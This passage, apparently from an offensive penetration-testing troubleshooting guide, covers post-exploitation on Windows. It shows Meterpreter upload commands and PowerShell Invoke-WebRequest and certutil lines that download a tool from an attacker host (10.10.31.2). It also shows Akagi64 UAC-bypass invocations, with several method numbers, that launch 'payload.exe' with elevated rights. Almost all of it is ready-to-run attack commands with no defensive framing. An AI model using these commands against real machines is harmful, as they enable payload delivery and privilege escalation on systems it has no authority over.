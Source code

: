 
---

### **Problem 6: File Upload Fails**

**What You See:**
```bash
meterpreter > upload /root/tool.exe C:\Windows\System32\
[-] Error uploading file: Access denied
```

**Solutions:**
```bash
# Try different directories
upload /root/tool.exe C:\Users\admin\Desktop\
upload /root/tool.exe C:\Users\admin\AppData\Local\Temp\
upload /root/tool.exe C:\Temp\

# Check current directory permissions
pwd
getuid

# Use alternative transfer methods
# Method 1: PowerShell download
shell
powershell -c "Invoke-WebRequest -Uri http://10.10.31.2/tool.exe -OutFile C:\Temp\tool.exe"

# Method 2: Certutil
certutil -urlcache -split -f http://10.10.31.2/tool.exe C:\Temp\tool.exe
```

---

### **Problem 7: UAC Bypass Doesn't Work**

**What You See:**
```bash
C:\Temp>Akagi64.exe 23 C:\Temp\payload.exe
# No response or error message
```

**Solutions:**
```bash
# Try different UAC bypass methods
Akagi64.exe 33 C:\Temp\payload.exe    # Method 33
Akagi64.exe 41 C:\Temp\payload.exe    # Method 41

# Check if payload path is correct
dir C:\Temp\payload.exe

# Verify payload works manually
C:\Temp\payload.exe

# Try alternative UAC bypass tools
# Use different bypass techniques
```
